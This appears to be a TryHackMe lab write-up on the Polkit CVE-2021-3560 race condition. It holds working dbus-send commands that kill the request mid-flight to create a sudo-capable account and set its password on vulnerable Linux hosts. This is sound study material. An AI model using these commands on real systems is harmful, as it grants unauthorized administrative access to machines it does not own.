 # TryHackMe: Polkit

**author**:: Nathan Acks  
**date**:: 2022-02-13

## Polkit (CVE-2021-3560)

### Background

CVE-2021-3560 impacted the following distros (at the time of its announcement):

* Red Hat Enterprise Linux 8
* Fedora 21 (or later)
* Debian Testing ("Bullseye")
* Ubuntu 20.04 LTS ("Focal Fossa")

Ubuntu fixed with with version 0.105-26ubuntu1.1 of the policykit-1 package (the last vulnerable version was 0.105-26ubuntu1).

This bug is a combination of a race condition and bad error handling. Basically:

* Manually request an action that requires superuser access via DBus.
* Kill `dbus-daemon` *after* Polkit has received the message but *before* it responds (there's the race).
* Polkit requests the user ID associated with the message, but since DBus has restarted it can't reference the original message ID and responds with an error.
* Polkit mishandles the error, substituting 0 for the ID of the requesting user (there's the botched error handling).
* Because the requesting user ID now appears to be root, Polkit just goes ahead and takes the action without issuing a challenge.

The race condition is obviously kind of tricky, so best to request something that can perhaps provide some persistence, like the creation of a new user account or changing the password on an existing account.

### Exploitation Process

(0) Construct a message similar to the following:

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

The three parameters are:

* `string:attacker` - the name of the user to create.
* `string:"Pentester Account"` - the user "description" (GECOS field).
* `int32:1` - grant sudo access to the user.

(1) Begin by determining how long the message takes to execute on the target. This can be done with the `time` command.

```bash
time dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1
```

(3) DBus needs to be killed approximately *halfway* through this execution period. We *cannot* wait for the application to return, so instead we background it.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts \
	              org.freedesktop.Accounts.CreateUser \
	              string:attacker \
	              string:"Pentester Account" \
	              int32:1 & \
sleep ${TIME}s; kill $!
```

Here `$TIME` is approximately half the time measured in the previous step.

(4) ID the created user.

```bash
id attacker
```

(5) Create a new password hash for the user.

```bash
openssl passwd -6 $PASSWORD
```

(6) Pull the same trick as in step 3, but with setting the created user's password.

```bash
dbus-send \
	--system \
	--dest=org.freedesktop.Accounts \
	--type=method_call \
	--print-reply /org/freedesktop/Accounts/User$UID \
	              org.freedesktop.Accounts.User.SetPassword \
	              string:'$PASSWORD_HASH' \
	              string:'Ask the pentester' & \
sleep ${TIME}s; kill $!
```

Here `$UID` is the user ID retrieved in step 4 (note that there's *no* space between `User` and the ID, so you'll be hitting an endpoint that looks something like `/org/freedesktop/Accounts/User1003`), `$PASSWORD_HASH` is the hash returned in step 5, and `$TIME` is the same timing determined from step 3. The second `string`  being passed in the user password hint.

(7) Log in as the new user (probably via `su`).
